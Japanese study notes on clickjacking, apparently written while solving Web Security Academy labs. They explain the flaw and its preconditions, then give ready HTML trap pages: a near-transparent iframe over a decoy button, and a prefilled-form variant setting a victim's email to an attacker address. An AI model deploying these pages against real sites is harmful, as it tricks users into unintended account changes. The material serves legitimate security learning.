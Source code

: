 ## 脆弱性の説明
- 攻撃者が自分自身で作ったwebサイトにユーザを誘導し、透明化してある正規のサイトの下に攻撃者が作ったボタンを配置する。そうすることで、ユーザはそのボタンを押すが、透明化してある正規のサイトのボタンが押されることによって、ユーザが意図しないリクエストを行ってしまう。

## 攻撃の条件
- 攻撃者が実行させようと使用している処理にログイン後のセッションIDや、CSRFトークンが必要な場合はユーザが事前にそれらの値を持っていることが前提となる。
- サーバ側の実装で別ドメインからの繊維が可能であること。具体的には以下のレスポンスヘッダーが実装されてない場合、悪用できる可能性がある。
```markdown
1. レスポンスヘッダにX-Frame-Optionsヘッダが存在すること

2. レスポンスヘッダまたはレスポンスボディにContent-Security-Policyヘッダ相当の要素が存在すること
```

## 手順 ※一度削除すると20分で何もできなくなるので改めて記載する。
1. 被害者操作:ログインをする。
![[Pasted image 20251002234913.png]]
2. 罠サイトの構築
```html
<style>
    iframe { /** ←これが実際のページ **/
        position:relative;
        width:$width_value; /** 横幅を設定 **/
        height: $height_value; /** 立幅を設定 **/
        opacity: $opacity; /** 明度の設定。ページ作成時は0.1で実際に公開するときは0.0001にする。 **/
        z-index: 2;
    }
    div { /** ←自作するボタン(最背面に設置を行う) **/
        position:absolute;
        top:$top_value; /** ←高さ調整 **/
        left:$side_value;/** ←横幅調整 **/
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"> /** ターゲットのサイト **/
</iframe>
```
- ↓実際の記入例
```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0ada00ed03368e89800b0395003e008a.web-security-academy.net/my-account"></iframe>
```

3. 調整時の実際の画面は以下の様になる。
![[Pasted image 20251003174022.png]]
![[Pasted image 20251003174125.png]]

---
## 事前入力されたフォーム入力によるクリックジャッキング
Getで送信される入力フォーム送信前にテキスト入力を要求するウェブサイトもある。
URLに値を攻撃者が準備をして、任意の値を被害者に送信させる。

- 以下の部分を使うだけ。
	- POSTリクエストだったとしても、GETで通信ができるのであれば悪用は可能そうかな。
```html
<iframe src="https://0a3d000603929cf9804d172b006d0074.web-security-academy.net/my-account?email=hacker@attacker-website.com">
```
---
